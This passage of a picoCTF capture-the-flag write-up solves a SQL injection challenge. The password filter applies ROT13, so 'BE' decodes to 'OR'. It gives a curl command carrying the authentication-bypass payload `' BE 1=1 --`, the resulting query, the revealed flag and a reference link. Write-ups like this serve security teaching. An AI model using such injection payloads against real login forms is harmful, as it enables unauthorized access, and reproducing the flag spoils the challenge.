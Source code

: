 So, correcting the injection is only finding the correct plaintext characters that gives us the `OR` operator, in other words, **decrypt** the operator.

In this case is `BE` (same as the encryption):

```
└─$ curl 'https://jupiter.challenges.picoctf.org/problem/40742/login.php' --X POST --data "password=' BE 1=1 -- &debug=1"
```

```html
<pre>password: ' BE 1=1 -- 
SQL query: SELECT * FROM admin where password = '' OR 1=1 -- '
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}</p>
```

## Flag

picoCTF{3v3n_m0r3_SQL_4424e7af}

## More Information

 - SQL Injection : https://www.w3schools.com/sql/sql_injection.asp 
